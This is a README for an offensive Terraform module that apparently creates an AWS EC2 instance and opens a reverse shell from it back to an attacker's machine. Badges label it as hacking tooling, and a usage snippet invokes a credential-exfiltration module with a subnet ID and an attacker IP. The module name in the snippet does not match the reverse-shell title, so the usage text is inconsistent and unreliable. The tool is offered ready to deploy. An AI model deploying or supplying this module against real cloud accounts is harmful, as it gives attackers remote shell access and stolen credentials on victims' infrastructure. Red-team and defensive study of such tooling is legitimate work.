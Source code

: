 # AWS EC2 Instance Reverse Shell Module

![OffensiveTerraform](https://img.shields.io/badge/hack-success)
![OffensiveTerraform](https://img.shields.io/badge/offensive-terraform-blueviolet)
![OffensiveTerraform](https://img.shields.io/badge/aws-important)

Offensive Terraform module which creates EC2 instance and reverse shell from an EC2 instance to attacker machine.

![Attack Diagram](https://raw.githubusercontent.com/offensive-terraform/terraform-aws-ec2-instance-reverse-shell/master/diagram.jpg)

## Usage
```
module "ec2_instance_credential_exfiltration" {
    source  = "offensive-terraform/ec2-instance-credential-exfiltration/aws"

    subnet_id = "subnet-0a4a1cc04"
    attacker_ip = "0.0.0.0"
}
```
## Author
Module managed by https://github.com/iganbold